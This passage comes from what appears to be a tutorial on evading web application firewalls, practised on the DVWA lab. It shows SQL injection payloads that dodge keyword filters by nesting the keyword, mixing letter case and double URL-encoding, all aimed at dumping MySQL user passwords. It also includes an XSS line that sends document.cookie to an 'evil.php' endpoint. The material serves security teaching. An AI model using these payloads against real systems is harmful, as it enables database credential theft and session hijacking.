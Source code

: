   Here we have performed our first bypass standing up. So how did it happen? Very simple. We encoded the text 'dvwa' on DVWA. Because the quotation mark was the forbidden character. And we surpassed it.<br><br>
### Change Keyword
Most of the time examples that keywords are blocked come to the filtering stage after passing the query, and then it combines the data from the beginning and the end so that the middle keyword is deleted. And creates a new keyword to be executed on the server. They work with layer logic. It is a difficult subject to explain. But I will explain it as clearly as I can. Let's continue with our SQL example.

```
‘ union selselectect password from mySQL.user limit 1 /*
```

We are currently reviewing a sample filter that WAF blocks the 'select' keyword. After the query request is accepted and then filtered, the middle keyword 'select' will be deleted and create a new keyword 'select'.<br>

With concatenation in strings, we can split the SQL keyword and bypass the WAF filters. The join syntax may vary by the database engine. For example in an MsSQL database, the select 1 command can change using join.

It's one of the effective ways to bypass WAFs, like the examples I wrote.<br>

Oftentimes, WAF filters cannot filter out a malicious keyword from a supplied query if the filters WAFs use have case-sensitive keywords. For example, if select can block upper and lower case letters to the database, but only does these checks, then providing a value such as SeLeCt will not be blocked and will bypass the WAF. This applies to XSS attacks and can be used as follows.<br>

```
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
```

As I said at the beginning of this chapter, there are many layers that can exist until our code achieves its goal. So far, we've looked at the only ways to encode strings. But we will have to write a lot of WAFs and a lot of code in chain form.

Now let's consider a scenario where the web server decodes the URL, but the WAFs also encode the URL for security purposes. The SQL sample code this time is as follows.

```
%2527%2520union%2520select%2520password%2520from%2520mySQL.user%2520limit%25201%2520%2F*
```

In this string code, the URL is encoded the same as in our encode example, but in the same way. In this case, when the WAF decodes this string, it cannot block it because it is still encoded and cannot find the malicious code. In the web server phase, the string will be decoded again and will work correctly. In short, our Bypass code will fulfill its function. So let's move on.<br><br>

### Bypassing WAF with SQL Injection
Until now, most of our examples were using SQL queries for WAF Bypassing. This is because the most common attack used in WAF bypassing is SQL Inj. that is. But let's start with SQL itself. SQL (short for Structured Query Language) is a query language used in the design and management of databases. Most of the products used today are relational databases such as SQL Server, MySQL, and others. Databases have data stored in a table-like structure with rows and columns.
